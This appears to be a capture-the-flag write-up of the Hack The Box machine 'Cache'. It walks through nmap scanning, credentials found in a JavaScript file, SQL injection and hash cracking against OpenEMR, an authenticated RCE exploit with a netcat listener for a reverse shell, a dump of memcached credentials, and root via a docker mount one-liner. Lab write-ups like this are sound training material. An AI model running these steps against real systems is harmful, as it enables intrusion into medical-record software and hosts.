









Cache

- Machine Name is Cache
- This is Medium Box and ip address is 10.10.10.188
Nmap Scan
# cat cache.nmap
# Nmap 7.80 scan initiated Tue May 19 20:37:04 2020 as: nmap -sSV -O -A -T4 -sC -oN cache.nmap 10.10.10.188
Nmap scan report for 10.10.10.188
Host is up (0.42s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
| 256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
|_ 256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Cache
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=5/19%OT=22%CT=1%CU=43979%PV=Y%DS=2%DC=T%G=Y%TM=5EC3E85
OS:B%P=x86_64-pc-linux-gnu)SEQ(SP=FC%GCD=1%ISR=101%TI=Z%CI=Z%TS=A)SEQ(SP=FC
OS:%GCD=1%ISR=101%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M54BST11NW7%O2=M54BST11NW7%O3=
OS:M54BNNT11NW7%O4=M54BST11NW7%O5=M54BST11NW7%O6=M54BST11)WIN(W1=FE88%W2=FE
OS:88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54BNNSNW7
OS:%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=
OS:Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIP
OS:CK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 21/tcp)
HOP RTT ADDRESS
1 398.49 ms 10.10.16.1
2 193.79 ms 10.10.10.188
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May 19 20:38:27 2020 -- 1 IP address (1 host up) scanned in 83.03 seconds
Web
As Nmap Result port 22 (ssh) and port 80(apache httpd) are open
I type this ip address in browser , I saw this webpage
I found three page login.html , author.html and index
- I found nothing interesting in author and index , I check login.html
- In this time I found one interesting file under jquery dir this is funciton.js
- In this file I found one password H@v3_fun 
- In this time , I think i found username ash from author.html can be username 
I found Check out his other projects like Cache: HMS(Hospital Management System) this description in author page
In this time , I change this machine ip address as hms.htb into my hostfile
- I found another secret webpage 
- This Webpage is OpenEMR
I used searchsploit
# searchsploit openemr ------------------------------------------------------------------------------------------------------------------------------------------------------------------ Exploit Title | Path ------------------------------------------------------------------------------------------------------------------------------------------------------------------ OpenEMR - 'site' Cross-Site Scripting | php/webapps/38328.txt OpenEMR - Arbitrary '.PHP' File Upload (Metasploit) | php/remote/24529.rb OpenEMR 2.8.1 - 'fileroot' Remote File Inclusion | php/webapps/1886.txt OpenEMR 2.8.1 - 'srcdir' Multiple Remote File Inclusions | php/webapps/2727.txt OpenEMR 2.8.2 - 'Import_XML.php' Remote File Inclusion | php/webapps/29556.txt OpenEMR 2.8.2 - 'Login_Frame.php' Cross-Site Scripting | php/webapps/29557.txt OpenEMR 3.2.0 - SQL Injection / Cross-Site Scripting | php/webapps/15836.txt OpenEMR 4 - Multiple Vulnerabilities | php/webapps/18274.txt OpenEMR 4.0 - Multiple Cross-Site Scripting Vulnerabilities | php/webapps/36034.txt OpenEMR 4.0.0 - Multiple Vulnerabilities | php/webapps/17118.txt OpenEMR 4.1 - '/contrib/acog/print_form.php?formname' Traversal Local File Inclusion | php/webapps/36650.txt OpenEMR 4.1 - '/Interface/fax/fax_dispatch.php?File' 'exec()' Call Arbitrary Shell Command Execution | php/webapps/36651.txt OpenEMR 4.1 - '/Interface/patient_file/encounter/load_form.php?formname' Traversal Local File Inclusion | php/webapps/36649.txt OpenEMR 4.1 - '/Interface/patient_file/encounter/trend_form.php?formname' Traversal Local File Inclusion | php/webapps/36648.txt OpenEMR 4.1 - 'note' HTML Injection | php/webapps/38654.txt OpenEMR 4.1.1 - 'ofc_upload_image.php' Arbitrary File Upload | php/webapps/24492.php OpenEMR 4.1.1 Patch 14 - Multiple Vulnerabilities | php/webapps/28329.txt OpenEMR 4.1.1 Patch 14 - SQL Injection / Privilege Escalation / Remote Code Execution (Metasploit) | php/remote/28408.rb OpenEMR 4.1.2(7) - Multiple SQL Injections | php/webapps/35518.txt OpenEMR 5.0.0 - OS Command Injection / Cross-Site Scripting | php/webapps/43232.txt OpenEMR 5.0.1 - 'controller' Remote Code Execution | php/webapps/48623.txt OpenEMR 5.0.1 - Remote Code Execution | php/webapps/48515.py OpenEMR 5.0.1.3 - (Authenticated) Arbitrary File Actions | linux/webapps/45202.txt OpenEMR < 5.0.1 - (Authenticated) Remote Code Execution | php/webapps/45161.py OpenEMR Electronic Medical Record Software 3.2 - Multiple Vulnerabilities | php/webapps/14011.txt Openemr-4.1.0 - SQL Injection | php/webapps/17998.txt -------------------------------------------------------------------------------------------------------------------------------------------------------------------------I fond too many result and exploit , I don't know this site of openemr version to exploit
In this time I found copyright under this webpage , I used this to find the version of this openemr
I found this version is 5 , I found one exploit this is OpenEMR < 5.0.1 - (Authenticated) Remote Code Execution
- I think it's can be work but this is Authenticated , we need credentials
- I found one useful youtube video and this is sql Injection avaliable too
- After exploitation sqlinjection , I got credentials
- I got adminusername and hash with sqlinjection but we need to crack this hash I used johntheripper tools
- Now I got openemr_admin:xxxxxx
Trying to get shell
- I used OpenEMR Authenticated Remote Code Execuition Exploit to get shell
- You can found this exploit at ExploitDB here
- Open local listener with ncat and run this exploit
- In the other hand , I open my terminal and use nc -lvnp 4444 to listen
- I run this exploit and Now I got shell as www-data 
- Finally I got lov priv shell
User
Previous I got one username and password this is ash:H@v3_fun
I check /etc/passwd and i found user ash , I think this password can be user ash password
I used this password to change to user ash from www-data
Luckily I work , Now I got user

I got user flag

Priveleges Escalation
I used find command to find some SUID file but found nothing
I made Enumration again , I found one strange port in netstat command output
This is port 11211 , I search at google this is memecached and we need to exploit this
I found one useful article about exploting this memecached Here
Ok Let's Exploit this
ash@cache:~$ telnet 127.0.0.1 11211 telnet 127.0.0.1 11211 Trying 127.0.0.1.. Connected to 127.0.0.1. Escape character is '^]'. stats cachedump 1 0 stats cachedump 1 0 ITEM link [21 b; 0 s] ITEM user [5 b;0 s] ITEM passwd [9 b;0 s] ITEM file [7 b;0 s] ITEM account [9 b;0 s] END get user get user VALUE user 0 5 luffy END get passwd get passwd VALUE passwd 0 9 0n3_p1ec3 ENDI got user luffy
I check id of this user luffy with id command , In this time this user is a group of docker
- That show we can use docker , Check GTFObins docker Privilege Escalation
- Lets exploit it like there
docker images docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash- Now Got Root and Root Flag 
I hope you learn something from my writeup